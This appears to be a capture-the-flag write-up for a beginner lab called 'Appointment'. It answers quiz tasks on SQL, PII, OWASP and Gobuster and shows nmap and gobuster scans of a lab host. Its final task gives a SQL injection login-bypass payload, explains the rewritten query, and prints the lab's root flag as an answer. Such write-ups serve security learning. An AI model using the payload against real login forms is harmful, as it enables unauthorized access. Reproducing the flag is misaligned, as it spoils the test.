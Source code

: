 # Appointment

## Task 1: What does the acronym SQL stand for?

Structured Query Language

## Task 2: What is one of the most common type of SQL vulnerabilities

SQL Injection

## Task 3: What does PII stand for?

Personally Identifiable Information

Personal Identifiable Information (PII) is defined as: Any representation of information that permits the identity of an individual to whom the information applies to be reasonably inferred by either direct or indirect means.

## Task 4: What does the OWASP Top 10 list name the classification for this vulnerability?

A03:2021-Injection

## Task 5: What service and version are running on port 80 of the target?

Apache httpd 2.4.38 ((Debian))

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 80 10.129.209.39           
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 05:59 EDT
Nmap scan report for 10.129.209.39
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.87 seconds
```

## Task 6: What is the standard port used for the HTTPS protocol?

443

## Task 7: What is one luck-based method of exploiting login pages?

brute-forcing

## Task 8: What is a folder called in web-application terminology?

directory

## Task 9: What response code is given for "Not Found" errors?

404

## Task 10: What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

answer: dir

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster -h
Usage:
  gobuster [command]

Available Commands:
  dir         Uses directory/file enumeration mode
  dns         Uses DNS subdomain enumeration mode
  fuzz        Uses fuzzing mode
  help        Help about any command
  s3          Uses aws bucket enumeration mode
  version     shows the current version
  vhost       Uses VHOST enumeration mode
```

Gobuster is a tool used to brute-force URIs including directories and files as well as DNS subdomains.

## Task 11: What symbol do we use to comment out parts of the code?

depends on the programming language. In this task, the hint length is only 1 so it's probably:

answer: `#`

## Task 12: Submit root flag

flag: `e3d0796d002a446c0e622226f42e9672`

input:

- username = 1' or '1' = '1
- password = 1' or '1' = '1

`SELECT * FROM users WHERE username='' AND password='';`

become:

`SELECT * FROM users WHERE username='1' or '1' = '1' AND password='1' or '1' = '1';`

which is always True.

## References

- <https://www.investopedia.com/terms/p/personally-identifiable-information-pii.asp>
- <https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection#:~:text=SQL%20injection%20testing%20checks%20if,queries%20without%20proper%20input%20validation>.
